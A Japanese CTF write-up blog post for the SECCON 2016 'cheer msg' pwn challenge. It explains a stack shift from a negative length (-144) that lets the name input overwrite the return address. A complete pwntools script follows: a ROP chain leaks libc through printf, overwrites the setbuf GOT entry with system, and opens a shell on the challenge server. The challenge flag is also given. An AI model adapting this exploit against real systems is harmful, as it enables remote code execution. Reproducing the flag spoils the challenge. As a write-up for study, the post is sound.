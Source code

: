 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/12/16/seccon-2016-online-cheermsg/
date: "2016-12-16T21:02:05+09:00"
tags: [ "ctf", "writeup", "pwn", "rop" ]
"target_url": [ "https://score-quals.seccon.jp/question/3093a2f4584782e888feb5cf243d982dd3211e2b" ]
---
```


# SECCON 2016 Online CTF: cheer msg

本番でやりかけたら影白さんが先に解いてくれてそのままになってた。
なのでpwn会で解いた。後輩らが村人Bで苦しんでるのを眺めながら解いて$3$時間かかった。もうちょっと速くしたい。

## problem

$32$bit。入力が$3$箇所。

``` sh
$ ./cheer_msg
Hello, I'm Nao.
Give me your cheering messages :)

Message Length >> 8  
Message >> Hello

Oops! I forgot to ask your name...
Can you tell me your name?

Name >> Yu

Thank you Yu!
Message : Hello
```

## solution

Message Lengthに指定した量だけ`main`関数内のlocal変数として領域が確保され、`message`関数内でこれに読み書きがされる。
ここで負数を指定するとMessage部分での読み込みは行われなくなるが、stackがずれることにより、Nameの読み込みで戻り先addressを書き換えることができる。
$-144$を指定するとちょうどNameの先頭に戻り先addressが来る。

後は適当にROP。`SECCON{N40.T_15_ju571c3}`。

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='cheermsg.pwn.seccon.jp')
parser.add_argument('port', nargs='?', default=30527, type=int)
parser.add_argument('--log-level', default='debug')
parser.add_argument('--libc', default='libc-2.19.so-c4dc1270c1449536ab2efbbe7053231f1a776368')
args = parser.parse_args()
context.log_level = args.log_level

elf = ELF('./cheer_msg')
libc = ELF(args.libc)
bss = 0x804a040
buf = bss + 0x300
thankyou = 0x804887e # "Thank you %s!\n"
pop_pop_ret = 0x080487ae # pop edi ; pop ebp ; ret

payload = ''
payload += p32(elf.plt['printf'])
payload += p32(pop_pop_ret)
payload += p32(thankyou)
payload += p32(elf.got['setbuf'])
payload += p32(elf.symbols['getnline'])
payload += p32(pop_pop_ret)
payload += p32(elf.got['setbuf'])
payload += p32(100)
payload += p32(elf.symbols['getnline'])
payload += p32(pop_pop_ret)
payload += p32(buf)
payload += p32(100)
payload += p32(elf.plt['setbuf'])
payload += 'CCCC'
payload += p32(buf)

p = remote(args.host, args.port)
p.recvuntil('Message Length >> ')
p.sendline('-144')
p.recvuntil('Message >> ')
p.recvuntil('Name >> ')
p.sendline(payload)
p.recvuntil('Thank you ')
p.recvuntil('Thank you ')
setbuf = u32(p.recv(4))
system = setbuf - libc.symbols['setbuf'] + libc.symbols['system']
log.info('setbuf: %#x', setbuf)
log.info('system: %#x', system)
time.sleep(0.3)
p.sendline(p32(system))
time.sleep(0.3)
p.sendline('/bin/sh\0')
time.sleep(1)
p.sendline('id')
p.interactive()
```
